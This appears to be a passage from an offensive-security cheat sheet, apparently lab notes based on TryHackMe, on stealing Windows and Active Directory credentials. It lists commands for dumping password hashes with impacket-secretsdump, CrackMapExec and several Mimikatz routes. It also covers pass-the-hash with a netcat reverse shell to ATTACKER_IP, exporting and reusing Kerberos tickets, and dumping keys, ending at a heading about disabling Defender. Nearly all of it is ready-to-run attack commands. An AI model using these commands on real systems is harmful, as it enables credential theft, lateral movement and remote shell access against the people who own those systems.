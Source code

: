     sudo impacket-secretsdump DOMAIN/USER:PASSWORD@TARGET_IP

2 - Crackmapexec

    cme smb TAREGT_IP -u "USER" -p 'PASSWORD' --sam
    cme smb TAREGT_IP -u "USER" -H 'HASH' --sam

3 - Mimikatz - Dump Hash

    privilege::debug
    sekurlsa::LogonPasswords

3 - Mimikatz - Dump Hash (Another Way - Local SAM)

    privilege::debug
    token::elevate
    lsadump::sam

3 - Mimikatz - Dump Hash (Another Way - LSASS memory)

    privilege::debug
    token::elevate
    sekurlsa::msv

**Note** Use `token::revert` to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. 

    EXEMPLO:
    token::revert
    sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"

**Refs**: https://adsecurity.org/?page_id=1821

### Dump Tickets (Pass The Ticket - PTT)

1 - Mimikatz - Export Tickets

    privilege::debug
    sekurlsa::tickets /export

**Note**: Use `klist` to list tickets for current session

1 - Mimikatz - Reuse Kirbi

    privilege::debug
    kerberos::ptt FILE.kirbi
    EXEMPLO: kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi

### Dump Keys (Pass The Key - PTK)

1 - Mimikatz - Dump Keys

    privilege::debug
    sekurlsa::ekeys



### Disable Defender
